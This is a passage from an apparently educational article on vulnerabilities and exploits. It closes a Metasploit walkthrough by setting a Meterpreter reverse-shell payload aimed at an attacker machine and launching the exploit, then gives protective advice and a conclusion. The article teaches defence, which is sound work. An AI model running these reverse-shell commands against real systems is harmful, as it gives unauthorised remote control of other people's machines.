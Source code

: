 They select a payload that will open a reverse shell on the target:

```sh
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5   # The attacker's machine
set LPORT 4444          # The port to listen on
```

### Step 6: Launch the Exploit

Finally, they execute the attack:

```sh
exploit
```

If successful, this provides a **Meterpreter shell**, allowing full control over the target system.

Using Metasploit, an attacker can scan a system for vulnerabilities, select an exploit, choose a payload, and execute the attack — all in a few simple commands.

This is why both ethical hackers and cybercriminals widely use Metasploit. [**Here is a full tutorial on Metasploit**](/freecodecamp.org/learn-metasploit-for-beginners.md) if you’d like to know more about how you can use it as an ethical hacker.

---

## How to Stay Protected?

Understanding vulnerabilities and exploits is the first step in defending against cyber threats. Here are some key strategies to protect yourself:

1. **Keep software updated** — Install security patches as soon as they are released.
2. **Use strong passwords** — Avoid using default or weak passwords. Implement multi-factor authentication (MFA) where possible.
3. **Scan your systems regularly** — Use tools like Nessus or OpenVAS to check for vulnerabilities.
4. **Monitor exploit databases** — Stay aware of new vulnerabilities that might affect your systems.
5. **Use security tools** — Firewalls, intrusion detection systems, and endpoint security software can help prevent exploits from succeeding.

---

## Conclusion

Vulnerabilities are weaknesses in software or hardware, while exploits are the methods attackers use to take advantage of them. Some exploits are well-known and documented, while others, like zero-day attacks, appear suddenly and without warning.

By understanding how exploits work and staying vigilant with security updates, you can reduce the risk of becoming a target. Cybersecurity is an ongoing battle, and the best defense is staying informed and proactive.

::: info

Join our [<FontIcon icon="fas fa-globe"/>weekly newsletter](https://newsletter.stealthsecurity.sh/) to get more cybersecurity tutorials delivered to you every Friday. To learn hands-on offensive cybersecurity in five days, check out the [<FontIcon icon="fas fa-globe"/>Security Starter](https://start.stealthsecurity.sh/) course.

